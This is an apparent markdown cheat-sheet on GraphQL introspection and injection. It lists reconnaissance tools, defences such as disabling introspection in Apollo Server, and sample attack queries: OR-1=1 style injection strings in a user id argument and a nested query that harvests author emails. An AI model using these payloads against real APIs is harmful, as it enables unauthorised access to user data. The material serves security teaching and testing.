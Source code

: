 # 🔍 GraphQL Introspection & Injection

## ☠️ Why It's Dangerous

If introspection is **enabled in production**, attackers can:
- Discover all available queries, mutations, and types
- Identify sensitive endpoints (`passwordReset`, `userEmail`, `adminPanel`)
- Begin crafting injection attacks using discovered input parameters

---

## 🧪 Common Attacks

### 1. Introspection Enabled
- Use tools like:
  - `GraphQL Voyager`
  - `Altair` or `Insomnia`
  - `Postman`
- Send: `introspection.query`

### 2. GraphQL Injection (example)
```graphql
query {
  user(id: "1' OR '1'='1") {
    name
    email
  }
}
```
### 🔐 Defense
Disable introspection in production:
// Example in Apollo Server
introspection: process.env.NODE_ENV !== 'production'
Apply strict input validation and schema rules

Enforce authentication on sensitive queries

### 📚 Tools
GraphQLmap
InQL
Postman + Burp Proxy
GraphQL Voyager (visual mapping)
---

### 🧪 Optional: Create a file for attack payloads

#### ✅ File: `attack-payloads.graphql`
```graphql
# Sample GraphQL attack queries (for offline testing)

# Bypass logic (classic OR 1=1 style)
query {
  user(id: "1' || '1'=='1") {
    name
    email
  }
}
```
### Field injection (if raw queries allowed)
query {
  __typename
}

# Nested type exploitation
query {
  user(id: "123") {
    posts {
      title
      comments {
        content
        author {
          email
        }
      }
    }
  }
}